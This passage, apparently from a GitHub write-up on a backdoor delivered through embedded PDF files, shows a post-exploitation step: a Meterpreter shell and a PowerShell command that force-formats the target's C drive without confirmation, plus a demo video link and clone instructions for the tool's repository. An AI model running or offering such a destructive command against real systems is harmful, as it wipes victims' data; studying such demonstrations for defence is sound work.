 The attacker can further create malicious script on the target machine using command prompt (cmd) or PowerShell which is able to bring down the whole operating system to not function properly. 
```
meterpreter> shell 
```
```
# Start the Windows PowerShell
powershell

#Powershell command to forcefully format the C drive clean.
New-Partition -DiskNumber 1 -UseMaximumSize -AssignDriveLetter C| Format-Volume -DriveLetter C -FileSystemLabel "New"-FileSystem NTFS -Full -Force -Confirm:$false
```

## Demonstration Video

[![Demo](https://i.imgur.com/FG8Ftvg.jpg)](https://youtu.be/TJkEAZb7-so "[Demonstration] Embedded Backdoor Connection via PDF Files | Bawang Ranger")


[//]: # (https://shields.io/badge/Chan-%20Jia%20Liang-green?style=for-the-badge&logo=CodeIgniter&logoColor=orange)
[//]: # (https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)



## Get the content

```
git clone https://github.com/Jasmoon99/Embedded-PDF
cd Embedded-PDF
```

{% embed url="https://github.com/Jasmoon99/Embedded-PDF" %}

<figure><img src="https://avatars.githubusercontent.com/u/45911474?v=4" alt=""><figcaption><p>Jasmoon99</p></figcaption></figure>
